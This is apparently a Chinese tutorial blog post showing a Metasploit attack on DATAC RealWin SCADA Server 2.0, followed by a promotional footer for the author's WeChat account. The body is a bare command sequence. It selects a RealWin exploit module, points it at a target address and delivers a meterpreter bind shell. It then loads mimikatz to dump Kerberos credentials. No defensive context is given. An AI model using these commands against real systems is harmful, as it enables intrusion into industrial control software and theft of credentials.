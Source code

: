 ```yaml
---
layout: post
category: binghe-code-hack
title: 利用Metasploit渗透DATAC-RealWin-SCADA Server2.0
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 利用Metasploit渗透DATAC-RealWin-SCADA Server2.0
lock: need
---
```


# 利用Metasploit渗透DATAC-RealWin-SCADA Server2.0

```
msfconsole
use exploit/windows/scada/realwin_scpc_initialize
set RHOST 192.168.109.141
set payload windows/meterpreter/bind_tcp
show options
exploit
sysinfo
load mimikatz
kerberos
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)